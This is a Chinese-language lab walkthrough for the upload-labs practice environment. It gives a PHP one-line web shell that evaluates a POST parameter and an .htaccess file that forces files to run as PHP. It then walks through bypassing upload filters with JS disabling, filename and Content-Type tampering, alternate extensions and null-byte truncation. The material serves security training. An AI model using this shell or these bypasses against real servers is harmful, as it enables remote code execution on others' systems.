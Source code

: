 ## Upload-libs实验

准备文件：

shell.php

```php
<?php @eval($_POST['hummer']);?>
```

.htaccess

```
<FilesMatch "">
SetHandler application/x-httpd-php
</FilesMatch>
```



### Pass-1

客户端js绕过

①禁用浏览器的js功能

②上传shell.jpg，通过BurpSuit抓包后将文件名修改为shell.php后发送即可

### Pass-2

第二关在上传文件时会检查文件的MIME，在抓包后修改Content-Type为：image/jpg即可

### Pass-3

第三关为黑名单绕过

![](https://s2.loli.net/2022/03/01/k6OrzCVlUxsDe4J.png)

①将shell.php后缀名修改为php3上传即可

②首先上传.htaccess文件，在上传shell.jpg文件。此时服务器会将任意文件中的内容当做php代码执行

### Pass-4

![](https://s2.loli.net/2022/03/01/DpyRGCNauObKAUc.png)

① 可以看到本pass并没有将htaccess后缀名列入黑名单中，因此可以通过Pass-3中的②方法绕过

00截断条件：

- php版本小于5.3.29
- magic_quotes_gpc = Off

②利用0x00截断，首先上传shell.php.jpg，然后抓包

![](https://s2.loli.net/2022/03/01/gMmVZbPE8OWs94J.png)

将文件名最后一个点改为00，将.jpg截断后上传

